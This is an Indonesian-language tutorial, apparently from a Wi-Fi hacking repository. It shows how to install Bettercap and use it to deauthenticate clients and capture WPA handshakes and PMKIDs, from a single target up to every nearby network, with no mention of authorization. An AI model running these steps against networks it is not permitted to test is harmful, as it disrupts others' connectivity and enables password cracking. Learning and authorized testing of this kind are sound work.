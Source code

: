 # Bettercap

[Bettercap](https://www.bettercap.org/) adalah perangkat lunak kerangka kerja keamanan yang kuat, mudah diperluas, dan portabel, ditulis menggunakan bahasa `Go`. Perangkat ini dirancang sebagai alat terpadu yang mudah digunakan bagi peneliti keamanan, tim pengujian penetrasi (red team), dan spesialis reverse engineering. Fitur-fiturnya memungkinkan pengumpulan informasi serta pengujian dan eksploitasi keamanan pada jaringan Wi-Fi, perangkat Bluetooth Low Energy (BLE), perangkat Human Interface Device (HID) nirkabel, jaringan CAN-bus, serta jaringan IPv4 dan IPv6.

## Instalasi

Kali Linux:

1. Pake packet manager (`apt`):

```
sudo apt-get update
sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
bettercap --version
```

2. Pake Go:

```
sudo apt-get update
sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
go install github.com/bettercap/bettercap/v2@latest
sudo mv ~/go/bin/bettercap /usr/local/bin/
bettercap --version
```

Untuk informasi lebih lengkapnya lagi bisa lihat disini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Penggunaan

### 1. Mode Interaktif

```
sudo bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada disini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode WEB UI

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link yang ada di bagian web ui starting on, yaitu `http://127.0.0.1:80`, terus klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang ingin dipake dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Lakukan scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, antara lain:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan dBm.
   - `ESSID`: Nama jaringan Wi-Fi.
   - `BSSID`: Alamat MAC unik dari Access Point.
   - `Vendor`: Produsen perangkat Access Point berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang digunakan oleh jaringan Wi-Fi.
   - `Ch`: Kanal (channel) yang digunakan oleh Access Point.
   - `Clients`: Jumlah perangkat klien yang saat ini terhubung ke AP tersebut.
   - `Sent`: Jumlah paket data yang dikirim dari perangkat ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh perangkat.
   - `Seent`: Menunjukkan jumlah paket yang terdeteksi (seen) dari klien atau AP yang dipantau.
8. Di sini, kita harus memilih BSSID target yang ingin diserang, lalu klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, kita dapat melakukan dua jenis serangan, antara lain:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Untuk Capture Handshake, klik `Deauthenticate Client`. Untuk Capture PMKID, klik `Associate`. Dalam panduan ini, kita akan memilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Memerlukan setidaknya 1 klien yang aktif.
   > - Capture PMKID: Tidak semua router mendukung PMKID.
10. Setelah klik `Deauthenticate Client`, tunggu sampe handshake berhasil capture. Handshake dianggap berhasil capture kalo muncul ikon `kunci merah` pada bagian `Encryption` dan notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari ketiga item di bagian pesan:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar di bawah ini terlihat bahwa file handshake disimpan di: `/root/bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
